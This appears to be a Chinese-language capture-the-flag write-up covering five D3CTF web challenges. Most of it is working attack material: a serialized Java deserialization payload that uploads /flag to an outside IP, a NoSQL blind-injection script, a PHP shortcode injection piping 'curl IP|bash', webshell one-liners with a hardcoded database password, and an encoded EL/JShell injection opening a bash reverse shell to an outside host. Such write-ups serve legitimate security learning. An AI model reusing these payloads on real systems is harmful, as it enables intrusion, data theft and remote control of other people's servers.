


# Shorter


hello路由可以反序列化但是长度不能超过1956，发现有rome依赖

找到链子后发现长度过长

参考https://xz.aliyun.com/t/10824可以缩短，利用4ra1n师傅写的工具把rome的链子加进去


稍微修改一下恶意类和main函数得到了1928长度的payload

```
baseStr=rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAB3CAAAAAEAAAACc3IAKGNvbS5zdW4uc3luZGljYXRpb24uZmVlZC5pbXBsLk9iamVjdEJlYW6CmQfedgSUSgIAA0wADl9jbG9uZWFibGVCZWFudAAtTGNvbS9zdW4vc3luZGljYXRpb24vZmVlZC9pbXBsL0Nsb25lYWJsZUJlYW47TAALX2VxdWFsc0JlYW50ACpMY29tL3N1bi9zeW5kaWNhdGlvbi9mZWVkL2ltcGwvRXF1YWxzQmVhbjtMAA1fdG9TdHJpbmdCZWFudAAsTGNvbS9zdW4vc3luZGljYXRpb24vZmVlZC9pbXBsL1RvU3RyaW5nQmVhbjt4cHNyACtjb20uc3VuLnN5bmRpY2F0aW9uLmZlZWQuaW1wbC5DbG9uZWFibGVCZWFu3WG7xTNPa3cCAAJMABFfaWdub3JlUHJvcGVydGllc3QAD0xqYXZhL3V0aWwvU2V0O0wABF9vYmp0ABJMamF2YS9sYW5nL09iamVjdDt4cHNyAB5qYXZhLnV0aWwuQ29sbGVjdGlvbnMkRW1wdHlTZXQV9XIdtAPLKAIAAHhwc3EAfgACc3EAfgAHcQB+AAxzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAEltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAARX291dHB1dFByb3BlcnRpZXN0ABZMamF2YS91dGlsL1Byb3BlcnRpZXM7eHAAAAAA/////3VyAANbW0JL/RkVZ2fbNwIAAHhwAAAAAXVyAAJbQqzzF/gGCFTgAgAAeHAAAAFXyv66vgAAADQAFgEABEV2aWwHAAEBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0BwADAQAGPGluaXQ+AQADKClWDAAFAAYKAAQABwEAEWphdmEvbGFuZy9SdW50aW1lBwAJAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwwACwAMCgAKAA0BACBjdXJsIC1UIC9mbGFnIDQ3LjkzLjI0OC4yMjE6MjMzMwgADwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsMABEAEgoACgATAQAEQ29kZQAhAAIABAAAAAAAAQABAAUABgABABUAAAAaAAIAAQAAAA4qtwAIuAAOEhC2ABRXsQAAAAAAAHB0AAF0cHcBAHhzcgAoY29tLnN1bi5zeW5kaWNhdGlvbi5mZWVkLmltcGwuRXF1YWxzQmVhbvWKGLvl9hgRAgACTAAKX2JlYW5DbGFzc3QAEUxqYXZhL2xhbmcvQ2xhc3M7TAAEX29ianEAfgAJeHB2cgAdamF2YXgueG1sLnRyYW5zZm9ybS5UZW1wbGF0ZXMAAAAAAAAAAAAAAHhwcQB+ABRzcgAqY29tLnN1bi5zeW5kaWNhdGlvbi5mZWVkLmltcGwuVG9TdHJpbmdCZWFuCfWOSg8j7jECAAJMAApfYmVhbkNsYXNzcQB+ABtMAARfb2JqcQB+AAl4cHEAfgAecQB+ABRzcQB+ABp2cQB+AAJxAH4ADXNxAH4AH3EAfgAicQB+AA1xAH4ABng=
```

但是一直没通,自己起了个才发现加号被当成空格了需要urlencode编码一下

编码后通了


# d3oj


看到了个地址，访问一下



先注册一个用户，然后在讨论处发帖


接下来退出去，重新注册一个账户就变为了admin账户，因为要求登陆oct用户

然后修改oct用户的账号密码，强制修改，原密码可以乱写，我修改为了123456，登陆后再题目处有个flag


抓包看到flag


# d3fGo

nosql注入

```
/api/Admini/Login路由

*struct { Username interface {} \"json:\"username\"\"; Password interface {} \"json:\"password\"\"; Seeecret interface {} \"json:\"seeecret\"\" }
```


会通过mangodb进行查询

如果提交的数据有seeecret字段 则mongodb查询参数是username password seeecret三个字段，否则是username password 两个字段

具体的flag在seeecret字段里面，利用nosql的盲注来找flag

```
import requests
import string
import re

ip = "http://432ad787ef.fgo-d3ctf-challenge.n3ko.co/"
proxies = {}


def main():
    flag = ""
    while 1:
        for i in string.printable:
            t = flag + re.escape(i)
            resp = requests.post(ip + "/api/Admini/Login", json={
                "username": {"$ne": "123"}, "password": {"$ne": "123"},
                "seeecret": {"$regex": "^" + t}
            }, proxies=proxies)
            if resp.status_code == 200:
                flag = t
                print(flag)
                break


main()
```


# westWordPress

在评论处反弹shell

```
[php_everywhere]<?php system("curl 47.93.248.221|bash");//[/php_everywhere]
[php_everywhere]<?php system("calc");//[/php_everywhere]
```




写马

```
echo "<?php @eval(\$_REQUEST[1]);" > 2.php

echo "<?php error_reporting(E_ALL); $mysqli = new mysqli("127.0.0.1","root","9Z98g4nmbJxrF5aYHvGaatyi354WxYyp","wordpress"); $tmp = $mysqli->query($_POST['sql']); $result = $tmp->fetch_all(); var_dump($result);" > mysql.php
```

要加反斜杠转义不然$符这一块会被删掉

但是拿到shell发现没有flag，不过有账号，说明有mysql服务，但是ps -ef没有找到mysql，可能是端口映射之类的，flag在另外的mysql上

mysql udf

```
1=$con=mysqli_connect("127.0.0.1:3306","root","9Z98g4nmbJxrF5aYHvGaatyi354WxYyp","wordpress");$sql="select sys_eval('ls /');";$result=mysqli_query($con,$sql);$res=mysqli_fetch_all($result,MYSQLI_ASSOC);var_dump($res);
```

不过这里的udf密码我并不知道，所以还没有打通，到时候看看官方的wp是怎么样的

# ezsql


/vote/getDetailedVoteById路由会接收vid参数

然后调用VoteService类的getDetailedVoteById


首先对参数进行了应该Unicode解码


这里过滤了new，只有不存在new则调用`VoteDAO`类的`getVoteById`方法

因为VoteDAO只是一个接口，进入到它的实现类VoteProvider


这里是一个sql查询

传入${1*2}发现通了


因为new被过滤了，拿jshell的payload打可以通

```
${@jdk.jshell.JShell@create().eval('java.lang.Runtime.getRuntime().exec("curl http://47.93.248.221:2333");')}
```


但是当我用curl反弹shell的时候却不行了

这里\uxxx能执行正常的curl命令，但是不能反弹shell

利用如下payload的Unicode编码再添加u，接下来urlencode编码来反弹shell

```
${@jdk.jshell.JShell@create().eval('java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}");')}
```

payload如下

```
http://993bc352ff.ezsql-d3ctf-challenge.n3ko.co/vote/getDetailedVoteById?vid=${@jdk.jshell.JShell@create().eval(%27java.lang.Runtime.getRuntime().exec(%5Cuuu0022%5Cuuu0062%5Cuuu0061%5Cuuu0073%5Cuuu0068%5Cuuu0020%5Cuuu002d%5Cuuu0063%5Cuuu0020%5Cuuu007b%5Cuuu0065%5Cuuu0063%5Cuuu0068%5Cuuu006f%5Cuuu002c%5Cuuu0059%5Cuuu006d%5Cuuu0046%5Cuuu007a%5Cuuu0061%5Cuuu0043%5Cuuu0041%5Cuuu0074%5Cuuu0061%5Cuuu0053%5Cuuu0041%5Cuuu002b%5Cuuu004a%5Cuuu0069%5Cuuu0041%5Cuuu0076%5Cuuu005a%5Cuuu0047%5Cuuu0056%5Cuuu0032%5Cuuu004c%5Cuuu0033%5Cuuu0052%5Cuuu006a%5Cuuu0063%5Cuuu0043%5Cuuu0038%5Cuuu0030%5Cuuu004e%5Cuuu0079%5Cuuu0034%5Cuuu0035%5Cuuu004d%5Cuuu0079%5Cuuu0034%5Cuuu0079%5Cuuu004e%5Cuuu0044%5Cuuu0067%5Cuuu0075%5Cuuu004d%5Cuuu006a%5Cuuu0049%5Cuuu0078%5Cuuu004c%5Cuuu007a%5Cuuu0049%5Cuuu007a%5Cuuu004d%5Cuuu007a%5Cuuu004d%5Cuuu0067%5Cuuu004d%5Cuuu0044%5Cuuu0034%5Cuuu006d%5Cuuu004d%5Cuuu0051%5Cuuu003d%5Cuuu003d%5Cuuu007d%5Cuuu007c%5Cuuu007b%5Cuuu0062%5Cuuu0061%5Cuuu0073%5Cuuu0065%5Cuuu0036%5Cuuu0034%5Cuuu002c%5Cuuu002d%5Cuuu0064%5Cuuu007d%5Cuuu007c%5Cuuu007b%5Cuuu0062%5Cuuu0061%5Cuuu0073%5Cuuu0068%5Cuuu002c%5Cuuu002d%5Cuuu0069%5Cuuu007d%5Cuuu0022);%27)}
```

